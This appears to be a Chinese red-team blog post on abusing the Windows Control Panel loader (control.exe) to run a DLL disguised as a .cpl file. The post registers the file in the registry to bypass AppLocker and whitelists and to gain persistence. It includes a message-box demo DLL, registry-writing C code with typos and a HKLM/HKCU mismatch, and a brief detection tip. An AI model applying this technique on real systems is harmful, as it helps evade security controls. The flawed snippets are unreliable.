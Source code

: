 ```yaml
---
layout:     post
title:    白名单-Control的利用
subtitle:   控制面板加载dll
date:       2020-01-19
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# 白名单-Control的利用

## 简介
Control.exe位于system32目录下，也就是控制面板，控制面板中的对应项，都对应了system目录下的对应项的cpl文件。cpl文件本质上是dll文件，但是规范了导出函数为CPlApplet()。该函数是控制面板应用程序的入口点，它被控制面板管理程序自动调用，且是个回调函数。    
当启动控制面板时，它会搜索Windows或System32或注册表的相应条目目录下的文件，并把以CPL作为扩展名的文件载入，它调用CPL文件的导出函数CPlApplet()，发送消息给该函数。所以，控制面板应用程序要处理控制面板发送过来的消息，即在函数CPlApplet中进行处理，该函数没有默认的行为。如果一个CPL文件中实现了多个控制面板程序，那么只会有一个CPlApplet函数，它负责所有的控制面板应用程序。  
在一定情况下，我们可以通过Control来加载DLL，是一种白加黑的利用思路，也可以用来进行权限维持。我们只需将dll文件更改后缀后放入对应目录下，添加注册表项，就可以在启动控制面板时加载对应的dll，绕过Windows AppLocker的限制规则以及一些应用程序的白名单。  

## 测试
cpl文件的编写按照dll的规范来写，只是将导出函数替换为CPlApplet即可。 (当然测试的话执行cmd可以不用导出函数CPlApplet) 
```
include <windows.h>

extern "C" __declspec(dllexport) VOID CPlApplet(HWND hwndCPl, UINT msg, LPARAM lParam1, LPARAM lParam2)
{
    MessageBox(0,"test!Applet","test",MB_OK);
}
BOOL APIENTRY DllMain( HMODULE hModule,
            DWORD ul_reason_for_call,
            LPVOID lpReserved
           )
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
  case DLL_THREAD_ATTACH:
  case DLL_THREAD_DETACH:
  case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```
编译后，有要用Control加载两种选择。  
### 自定义路径
重命名后，自定义路径，我这里以C:\test.cpl为例。  
打开注册表，在***HKEY_LOCAL_MACHINEHKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Control Panel\\Cpls***添加字符串值。  
![200119_1](/img/200119_addcpls.png)  
```
HKEY hKey;
DWORD dwDisposition;
char path [] = "C:\\test.cpl”;
RegCreateKeyExA(HKEY_CURRENT_USER,
              "Software\\Microsoft\\Windows\\CurrentVersion\\Control Panel\\Cpls", 0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition);
RegSetValueExA(hKey, “testcpl.cpl”, 0, REG_SZ, (BYTE*)path, (1 + ::lstrlenA(path))));
```
然后然后打开控制面板，就会弹出消息框。  
### 放在system32下
将test.cpl放在system32目录下。  
在注册表***HKEY_LOCAL_MACHINEHKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Control Panel\\Cpls***中新建项目test.cpl，test.cpl中新建DWORD值，名称为RunLevel，值默认为0即可。  
![200119_2](/img/200119_runlevel.png)   
运行控制面板。   
![200119_3](/img/200119_messagebox.png)  

## 问题
这个加载过程中似乎只要有加载别的cpl，都会运行一次这个test.cpl，也就是会弹框好几次，具体原因还要更深入地去了解下控制面板整个启动加载过程。  

## 对应策略
监视cpl文件的加载，监视system目录下的cpl文件。  

## 参考  
[https://mp.weixin.qq.com/s?__biz=Mzg3MDAzMDQxNw==&mid=2247487706&idx=2&sn=56a5e0bed9df5de3f443d1d05752464d&scene=21#wechat_redi](https://mp.weixin.qq.com/s?__biz=Mzg3MDAzMDQxNw==&mid=2247487706&idx=2&sn=56a5e0bed9df5de3f443d1d05752464d&scene=21#wechat_redi)    
[https://attack.mitre.org/techniques/T1196/](https://attack.mitre.org/techniques/T1196/)   

